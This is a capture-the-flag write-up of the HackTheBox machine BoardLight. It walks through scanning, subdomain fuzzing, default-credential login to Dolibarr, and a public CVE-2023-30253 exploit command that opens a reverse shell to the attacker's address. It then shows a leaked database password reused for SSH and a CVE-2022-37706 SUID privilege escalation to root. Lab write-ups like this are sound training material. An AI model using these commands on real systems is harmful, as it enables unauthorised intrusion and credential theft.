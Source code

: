 ```yaml
---
title: "BoardLight - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## BoardLight
![](https://kar0nx.github.io/assets/images/writeup/7768afed979c9abe917b0c20df49ceb8.png)
## Reconnaissance

IP: 10.10.11.11
## NMAP

```
nmap -T4 -p- -A 10.10.11.11
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 10:20 UTC
Nmap scan report for 10.10.11.11
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   30.84 ms 10.10.14.1
2   30.95 ms 10.10.11.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.53 seconds
```

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902122054.png)

on bottom I spot page name board.htb, add it to /etc/hosts

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902122647.png)

I notice page is in php, contact us redirect us to home page, login also. Starting directory busting but nothing usefull, next subdomain brute force and I found crm

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.Board.htb" -u http://Board.htb -fs 15949
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902122723.png)

Great we go login panel to Dolibarr 17.0.0

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902122814.png)

tried default creds admin:admin and we manage to login however it says access denied

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902122940.png)

searching google I found CVE-2023-30253. 
Dolibarr before 17.0.1 allows remote code execution by an authenticated user via an uppercase manipulation:
```
<?PHP instead of <?php in injected data
```
https://nvd.nist.gov/vuln/detail/CVE-2023-30253
Poc: https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

```
python3 exploit.py http://crm.board.htb admin admin 10.10.14.8 4444
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902123600.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902123542.png)

## Gaining Access

Start with searching for configuration files of dolibarr

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902132307.png)

```
/var/www/html/crm.board.htb/htdocs/conf$ cat conf.php
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902132327.png)

dolibarrowner serverfun2$2023!!
Password reused by larissa, now we can connect via ssh 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902132558.png)

## Privilege Escalation

Sudo have vulerable version but we cannot run sudo so it is rabbit hole, next I ran linpeas and found promising SUID

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902133555.png)

to confirm we can check version

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902133712.png)

enlightenment before 0.25.4 cve-2022-37706
Copy exploit on target machine and run
https://nvd.nist.gov/vuln/detail/CVE-2022-37706
PoC: https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250902134227.png)

we have root shell